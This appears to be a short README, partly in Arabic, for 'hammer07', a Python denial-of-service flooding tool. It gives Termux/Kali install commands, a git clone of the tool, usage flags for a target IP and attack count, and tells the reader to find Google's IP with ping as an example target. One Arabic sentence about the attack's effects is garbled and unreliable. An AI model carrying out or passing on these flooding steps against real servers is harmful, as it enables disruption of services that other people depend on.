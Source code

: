 ###HAMMER 07

![Image 1](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSVCKHIS-h6iX4kqK1vUn-XToFvEoGZYZpOzw&usqp=CAU)
 تعد هجمات حرمان (رفض الخدمة) من أكثر الهجمات شيوعًا على الإنترنت ، وتهدف إلى إعاقة خدمة ما عن طريق إرسال مجموعة الطلبات غير الصحيحة أو لخادم الويب الذي يستضيف الخدمة. تؤدي هذه النوبات إلى الفقر الذي يؤدي إلى ارتفاعه.
 
 ### install for termux  & kali linux !
 
 <code>apt update</code>
 
  <code> apt upgrade</code>
  
  <code>apt install python</code>
  
  <code>apt install git</code>
  
  <code>apt install dnsutils</code>
  
  <code>git clone https://github.com/MR-SHANKAR7/hammer07</code>
  ### تشغيل ادات 
  <code>cd hammer07</code>
  
  <code>python hammer07.py -s [ip Address] -t 135</code>
  
  
   -s : 
  
  عنوان ابي لمزود لخدمة
  
   -t : 
   
 
 عدد هجمات
 
   ### example 
   
   
<code> python hammer07.py -s 123.45.67.89 -t 135</code>

### 
طريقة استخراج عنوان  الايبي :


نستخرج عنوان لايبي لموقع كوكل


www.google.com

داخل terminal ندخل

ping www.google.com 



# shanakr skr 07 apps developers 
#### Do not use this tool for personal purposes
### They wait for new updates
#### Thank you

